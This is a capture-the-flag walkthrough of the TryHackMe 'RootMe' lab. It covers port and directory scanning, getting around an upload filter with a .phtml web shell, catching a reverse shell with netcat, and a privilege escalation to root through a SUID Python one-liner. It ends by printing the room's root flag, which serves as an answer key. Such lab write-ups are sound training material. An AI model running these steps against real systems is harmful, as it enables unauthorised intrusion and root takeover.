




# RootMe (THM)
https://tryhackme.com/room/rrootme


## Port scan (discovery phase skipped as THM gives you the IP address)

### Command used: nmap<br>
<br>

```
nmap -sV -p22,80 rootme.vul
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-06 02:06 CDT
Nmap scan report for rootme.vul (10.10.74.64)
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

## HTTP enumeration

### Command used: gobuster
<br>

```
gobuster dir --url http://rootme.vul --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.vul
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/06 02:07:30 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.vul/css/]
/index.php            (Status: 200) [Size: 616]                             
/js                   (Status: 301) [Size: 305] [--> http://rootme.vul/js/] 
/panel                (Status: 301) [Size: 308] [--> http://rootme.vul/panel/]
/server-status        (Status: 403) [Size: 275]                               
/uploads              (Status: 301) [Size: 310] [--> http://rootme.vul/uploads/]
                                                                                
===============================================================
2022/04/06 02:09:14 Finished
===============================================================
```

## Reverse PHP shell
<br>

Nothing interesting at the base URL:<br><br>



Navigating to /panel brings us to a file upload page. Of course, the first thing we're going to do is try and upload a PHP shell, but .php files are not allowed:<br><br>



...but .phtml files ARE allowed! Renaming our file to *.phtml allowed us to upload it:<br><br>


*For this step, p0wny@shell was used* (https://github.com/flozz/p0wny-shell)<br>

(/uploads/shell.phtml)



Here, we have our first flag - user.txt:<br><br>



We're not done yet. There's still a root.txt flag somewhere. We change course and upload a PHP reverse shell (this should have been done in the first place) (https://pentestmonkey.net/tools/web-shells/php-reverse-shell). We configure the shell, start a listener on netcat, and launch the shell:

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.105.239] from (UNKNOWN) [10.10.74.64] 38480
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:07:34 up  1:05,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We then spawn bash from Python:

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

## Privilege escalation
<br>

Now that we have a stable shell, we look for binaries with the SUID bit enabled:

```
find / -type f -user root -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
```

The interesting find here /usr/bin/python. We head on over to GTFOBins and search for possible exploits (https://gtfobins.github.io/gtfobins/python/#suid).

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

Now that we're running as root, we go look for the root.txt flag:

```
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```